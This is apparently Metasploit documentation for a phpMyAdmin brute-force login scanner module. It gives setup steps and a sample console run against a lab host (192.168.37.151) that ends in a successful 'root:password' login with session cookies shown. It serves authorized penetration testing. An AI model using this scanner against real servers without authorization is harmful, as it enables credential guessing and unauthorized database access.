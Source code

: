 
## Vulnerable Application

  This module is a brute-force login scanner for PhpMyAdmin 

## Verification Steps

  1. Start msfconsole
  2. Do: ```use [auxiliary/scanner/http/phpmyadmin_login]```
  3. Do: ```set RHOSTS [IP]```
  4. Do: ```set TARGETURI [URI]```
  5. Do: ```set PASSWORD [PASSWORD]```
  6. Do: ```run```
  7. You should get a successful login status

## Scenarios

### Tested on PhpMyAdmin Versions 4.8.2, 4.8.1, 4.0.10.20

  ```
  msf5 > use auxiliary/scanner/http/phpmyadmin_login
  msf5 auxiliary(scanner/http/phpmyadmin_login) > set rhosts 192.168.37.151
  rhosts => 192.168.37.151
  msf5 auxiliary(scanner/http/phpmyadmin_login) > set targeturi phpmyadmin-4.8.2/index.php
  targeturi => phpmyadmin-4.8.2/index.php
  msf5 auxiliary(scanner/http/phpmyadmin_login) > set password password
  password => password
  msf5 auxiliary(scanner/http/phpmyadmin_login) > run
  PhpMyAdmin Version: 4.8.2
  Token here: !il&>s3]t28i34x7
  Session ID: sruks7tm3bnh6jljb8h1q9gh6u
  Cookies: pma_lang=en; phpMyAdmin=anttidd9jgc8c2qnhn0kq4sshu;

  [+] 192.168.37.151:80 - Success: 'root:password'
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf5 auxiliary(scanner/http/phpmyadmin_login) > 

  ```
